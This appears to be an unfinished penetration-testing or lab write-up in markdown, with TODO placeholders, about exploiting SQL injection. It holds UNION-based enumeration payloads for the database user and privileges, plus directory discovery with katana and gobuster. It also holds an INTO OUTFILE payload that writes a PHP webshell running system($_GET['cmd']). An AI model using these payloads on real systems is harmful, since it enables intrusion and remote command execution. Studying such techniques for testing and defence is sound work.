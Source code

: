 `<insert screenshot any of the OS enumeration from above>`

#### 4.2.2.3 - General

- We'll be using the SQL queries to enumerate file destination that may give us the directory web root path to write the webshell.

TODO: Demonstrate from the enumeration phase to find the web root directory

WHERE avatar LIKE '%upload%'

WHERE avatar LIKE  '%.jpeg'

WHERE avatar LIKE  '%.pdf'

WHERE avatar LIKE  '%.txt'

`<insert_screenshot from any of the SQLi commands for directory enumeration>`

- Spidering the URL with the use of `katana` to enumerate directories.

TODO: paste terminal commands and output

- Bruteforce the directories in the URL with tools such as, `gobuster`

TODO: paste terminal commands and output

### 4.2.4 - DB Enumeration

```sql
' UNION SELECT NULL, DATABASE()#

' UNION SELECT NULL, USER()#

' UNION SELECT NULL * FROM information_schema.PRIVILEGES#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->',GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES#
```

### 4.2.5 - Exploit

TODO: Provide a way to GRANT the current DB user account for FILE Privilege

#### 4.2.5.1 - Exploit via OUTFILE

##### 4.2.5.1.1 - Simple Webshell

Note: There are a few things you need to know about these error messages.

1. MySQL can't find the source. To solve this error, you need to provide the absolute path to source.

```sql
' UNION SELECT '<?php $cmd=$_GET["cmd"];system($cmd);?>', NULL INTO OUTFILE '/var/html/shell.php'#
```

Here's the error message.

```
Can't create/write to file '/var/html/shell.php' (Errcode: 2 "No such file or directory")
```
